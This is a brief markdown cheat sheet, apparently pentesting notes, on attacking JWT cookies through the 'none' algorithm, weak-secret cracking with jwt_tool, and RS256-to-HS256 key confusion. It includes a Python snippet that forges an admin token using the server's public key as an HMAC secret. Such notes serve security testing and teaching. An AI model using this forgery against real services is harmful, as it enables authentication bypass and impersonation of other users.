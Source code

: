 # Cookies

## JWT token

### None algo 

	Jwt cookies can be vulnerable if signature is not properly checked !
	If so, we can modify the alg to none and delete the signature and modify the payload.

### Weak secret

	We can crack the signature too with jwt tool https://github.com/ticarpi/jwt_tool

### RS256 to HS256

	Misconfigured backend can be vunlerable if it doesnt check properly the return algo.
	If we modify the algo from RS256 to HS256 and we use the public key as the secret, the backend will check the token with HS256 algo with the public key as the signature

	HOW TO 

	Save the key in a key.pem file
	❗❗❗ Respect this format
	-----BEGIN PUBLIC KEY-----
	key
	-----END PUBLIC KEY----- 

		import jwt
		public = open('key.pem','r').read()
		public = "\n".join(public.split('\n'))+"\n"
		print(jwt.encode({"username":"admin"}, key=public, algorithm='HS256')) 


